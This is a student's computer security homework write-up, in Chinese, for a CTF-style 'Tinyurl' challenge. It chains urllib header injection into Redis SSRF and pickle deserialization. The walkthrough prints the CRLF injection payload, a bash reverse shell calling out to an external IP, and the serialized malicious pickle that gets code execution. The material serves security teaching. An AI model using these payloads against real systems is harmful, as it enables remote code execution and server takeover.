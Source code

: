 # Computer Security Homework 0x06

Real name: 涂世昱

Nick name: R07922115

Student ID: R07922115

## Tinyurl

### Introduction

這題的漏洞是來自於一個叫做[Header Injection in urllib](https://bugs.python.org/issue35906?fbclid=IwAR3t2w6kVJ-rSGsTYze3ChcGzriKg43Ah0cYGEDm_5o-n6h9WbMD4CwfAjc)的bug, 利用這個bug, 我們可以塞一個reverse shell, 把它經過python serialization的結果之後存到redis server的某個session-id, 然後當我們再更改我的瀏覽器的cookie當中的session-id, 將它設為我剛剛所設的session-id再拜訪tinyurl的網頁, 我們的reverse shell就會被反序列化進而得到redis server的shell。

### Walkthrough

#### Header Injection in urllib

根據提出此bug的人的描述, 我確實可以重現它所說的漏洞, 根據題目所附的source code, ``app.py``, redis server的host name = 'redis', port = 6379, 當我拜訪我用docker建的tinyurl網頁時, 將要縮短的url用post傳出去(``url=http://redis:6379/?q=HTTP/1.1%0d%0aSET yy yyyy%0d%0aHeader2:%0d%0a``), 我們會得到縮短過後的網址, 再去拜訪此網址, 會發生Internal Server Error, 此時我們已成功在redis server插入``yy``這個key, 且它的value為``yyyy``。

```
127.0.0.1:6379> keys *
1) "session:77f50b49-023e-4329-8202-1f8b7af5cdb4"
2) "session:4dc7dde9-e8b6-4f60-93e5-475c29e7eb5a"
3) "session:1f8daf7e-fa77-4902-9983-ef11c452723b"
4) "yy"
5) "session:469ce4a7-1c1c-484a-b56e-4f1180c335c3"
127.0.0.1:6379> get yy
"yyyy"
```

#### Python serialization

根據上述例子也可以觀察到在redis server當中的key為許許多多的sesion id, 我們觀察其value, 可得到

```
127.0.0.1:6379> get session:77f50b49-023e-4329-8202-1f8b7af5cdb4
"\x80\x03}q\x00X\n\x00\x00\x00_permanentq\x01\x88s."
```

將"\x80\x03}q\x00X\n\x00\x00\x00_permanentq\x01\x88s."用pickle.load()將它反序列化會確實得到一個python的object, 然後session id其實就跟瀏覽器當中的cookie相互呼應, 意思就是如果我把我瀏覽器現有的cookie刪掉然後再拜訪tinyurl的網站, 會有新的session id產生在redis當中, 再根據``app.py``當中flask有個Session的函數, 它似乎就會將存在redis的session-id的相對應的value反序列化它, 所以我就可以將某個喚起reverse shell的command, 定義在python的某個object當中然後將它序列化之後, 用上述的urllib的漏洞塞到redis的某個session-id, 再把cookie的session-id改為此id再拜訪tinyurl的網站即可成功執行reverse shell。

我所找到的reverse shell command為``bash -i >& /dev/tcp/<ip>/<port> 0>&1``, 再用python pickle把command用class包起來然後pickle.dump()出來的結果即為序列化過後的reverse shell command, ``\x80\x03cposix\nsystem\nq\x00X5\x00\x00\x00bash -c 'bash -i >& /dev/tcp/140.112.90.54/9999 0>&1'q\x01\x85q\x02Rq\x03.``, 然後將它在hackbar的post欄位輸入``url=http://redis:6379/?q=HTTP/1.1%0d%0aSET "session:abcd1234" <serialized reverse shell>``, 就得到一個縮短後的網址, 拜訪這個網址後會出現Internal Server Error, 然後再把cookie session id改為``abcd1234``, 拜訪tinyurl的網站, 就可以在nc的port得到shell了。

```
127.0.0.1:6379> get session:abcd1234
"\x80\x03cposix\nsystem\nq\x00X5\x00\x00\x00bash -c 'bash -i >& /dev/tcp/140.112.90.54/9999 0>&1'q\x01\x85q\x02Rq\x03."
```

![](/home/jason/Pictures/Screenshot_20191206_231742.png)






